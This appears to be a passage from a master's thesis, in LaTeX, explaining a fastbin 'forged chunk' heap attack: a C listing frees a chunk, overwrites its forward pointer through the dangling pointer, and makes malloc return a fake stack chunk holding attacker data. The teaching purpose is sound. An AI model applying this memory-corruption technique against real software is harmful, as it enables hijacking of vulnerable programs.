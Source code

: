 \documentclass{masterthesis}
\begin{document}
\section{Forged Chunk}
Freeing up a chunk does not prevent access to it because the pointer still exists in the application, so, we can implement an attack on the heap data structure by taking control of the pointer . Below code shows how we can return our forged chunk instead of a real heap chunk: 
\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
 size_t prev_size;
 size_t size;
 struct forged_chunk *fd;
 struct forged_chunk *bck;
 char buf[10];    // padding
};
a = malloc(10);    // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk; // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;  
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);     // Will return 0x219c010
victim = malloc(10);   // Points to 0x7ffc6de966a0
\end{lstlisting}

In the first step, we allocate a memory ‘a’ with 10-Byte size, also, Create our fake chunk with size 0x20. Chunk size is important It must fall in fastbin chunks size because fastbin has a security check on chunk size while removing it from the list.
Now by call free(a), the real chunk is put back in the fast bins. As we tell, we free up space but the pointer still points to chunk memory location. By accessing the pointer, we make the forward pointer of freed chunk ‘a’ to point to the forged chunk. The current layout of the heap is like below now : 

\begin{lstlisting}[language=c,frame=tlrb]
head -> a -> forged chunk -> undefined (forward of the forged chunk be holding attacker's data)
\end{lstlisting}

In the following by first allocated ‘a’ again, the heap manager returns the 'a' from the fast bin, following that, our forged chunk be at the head, so, next allocation return it instead of a real chunk
\end{document}

